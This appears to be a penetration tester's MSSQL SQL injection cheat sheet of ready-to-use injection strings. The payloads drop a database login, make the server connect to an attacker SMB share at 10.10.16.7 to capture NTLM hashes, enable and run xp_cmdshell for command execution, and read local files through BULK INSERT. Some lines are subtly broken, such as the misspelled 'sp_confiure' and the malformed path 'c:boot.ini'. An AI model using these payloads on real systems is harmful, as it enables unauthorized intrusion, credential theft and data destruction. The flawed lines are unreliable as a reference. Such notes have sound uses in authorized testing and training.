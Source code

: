 # MSSQL Injection
https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet

- Testing parameters. Blind SQL injection method.
```sql
q=10' UNION SELECT 1,2,3....10 -- -
q=10' EXEC sp_droplogin 'user'; -- -
q=10' SELECT HOST_NAME() -- -
```


### Command Execution

- Ending query and testing for `xp_dirtree` to nc listening on SMB.
This can be used to potentially intercept NTLM hashes.
```sql
q=10'; EXEC xp_dirtree '\\10.10.16.7\smb_fileshare\test.txt' -- -
```

- Testing for potential xp_cmdshell.
```sql
q=10'; EXEC xp_cmdshell 'ping 10.10.16.7' -- -
```

- Attempting to configure cmdshell if root/admin is available.
```sql
q=10'; 
EXEC sp_confiure 'show advanced options', 1; 
RECONFIGURE; 
EXEC sp_configure 'xp_cmdshell', 1; 
RECONFIGURE;

--Then execute...
EXEC xp_cmdshell 'ping 10.10.16.7' -- -
```

- Attempting to access local files if root/admin is available.
```sql
a=10'
CREATE TABLE malicious (line varchar(8000));
BULK INSERT malicious FROM 'c:boot.ini';
DROP TABLE malicious; -- -
```